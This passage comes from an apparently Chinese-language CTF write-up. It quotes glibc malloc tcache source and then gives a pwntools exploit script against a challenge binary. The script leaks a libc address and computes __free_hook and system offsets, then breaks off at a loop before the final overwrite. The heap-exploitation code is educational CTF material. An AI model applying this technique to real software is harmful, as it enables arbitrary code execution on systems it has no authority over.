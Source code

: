 ```c
			{
			  REMOVE_FB (fb, pp, tc_victim);
			  if (__glibc_unlikely (tc_victim == NULL))
			    break;
			}
		      tcache_put (tc_victim, tc_idx);
		    }
		}
#endif
```



而最後的 exploit 如下:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# r = process("./C", env={"LD_PRELOAD": "./libc-2.29.so"}, aslr=False)
r = process("./C", env={"LD_PRELOAD": "./libc-2.29.so"})
gdb.attach(r, """
dir /usr/src/glibc/glibc-2.27/:dir /usr/src/glibc/glibc-2.27/malloc/
b *exec_comm+1761
""")

"""
1.Add a girl's info
2.Show info
3.Edit info
4.Call that girl!
5.Exit lonely.
"""

def add(s, name, call):
    r.sendlineafter('Input your choice:', '1')
    r.sendlineafter('Please input the size of girl\'s name\n', str(s))
    r.sendafter('please inpute her name:\n', name)
    r.sendafter('please input her call:\n', call)

def show_info(idx):
    r.sendlineafter('Input your choice:', '2')
    r.sendlineafter('Please input the index:\n', str(idx))

def call(idx):
    r.sendlineafter('Input your choice:', '4')
    r.recvuntil('Be brave,speak out your love!\n')
    r.sendlineafter('Please input the index:\n', str(idx))
        
add(0x410, "A", "A") # 0
add(0x60, "B", "B") # 1, prevent consolidate
call(0)
show_info(0) # leak libc
r.recvuntil('name:\n')
libc = u64(r.recvuntil('phone:', drop=True).ljust(8, b'\x00')) - 0x3b1ca0
libc &= 0xffffffffffff
__free_hook = libc + 0x3b38c8
_system = libc + 0x41c30
info(f"libc: {hex(libc)}")

for i in range(2, 10): # 2 - 9
```
